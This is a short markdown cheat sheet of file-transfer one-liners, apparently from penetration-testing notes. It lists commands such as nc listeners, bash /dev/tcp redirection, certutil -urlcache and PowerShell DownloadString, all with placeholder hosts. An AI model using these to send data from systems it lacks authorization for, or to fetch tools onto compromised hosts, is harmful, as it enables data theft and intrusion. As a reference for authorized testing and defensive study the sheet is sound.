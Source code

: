 # File Transfer

> You can always check the integrity of the files using `md5sum` to ensure they were transferred successfully.

## Sending

### Python3

```bash
python3 -m http.server <PORT>
```

### Python2

```bash
python -m SimpleHTTPServer <PORT>
```

### PHP

```bash
php -S 0.0.0.0:<PORT>
```

### Smb

```bash
smbserver.py <SHARE_NAME> $(pwd) -smb2support
```

### Ncat

```bash
nc -nlvp <PORT> < <FILE>
```

### Bash

```bash
cat <FILE> > /dev/tcp/<IP>/<PORT>
```

## Receiving

### Ncat

```bash
nc -nlvp <PORT> > <OUTPUT_FILE>
```

### Bash

```bash
cat < /dev/tcp/<IP>/<PORT> > <OUTPUT_FILE>
```

### Wget

```bash
wget <URL>
```

### Curl

```bash
curl -s <URL> -o <OUTPUT_FILE>
```

### Smb

Linux

```bash
smbclient //<IP>/<SHARE_NAME> -c "get <FILE> <OUTPUT_FILE>"
```

Windows

```batch
copy \\<IP>\<SHARE_NAME>\<FILE> <OUTPUT_FILE>
```

### PowerShell

```powershell
(New-Object Net.WebClient).DownloadString('<URL>') > <OUTPUT_FILE>
```

### CMD

```batch
certutil -urlcache -split -f <URL> <OUTPUT_FILE>
```
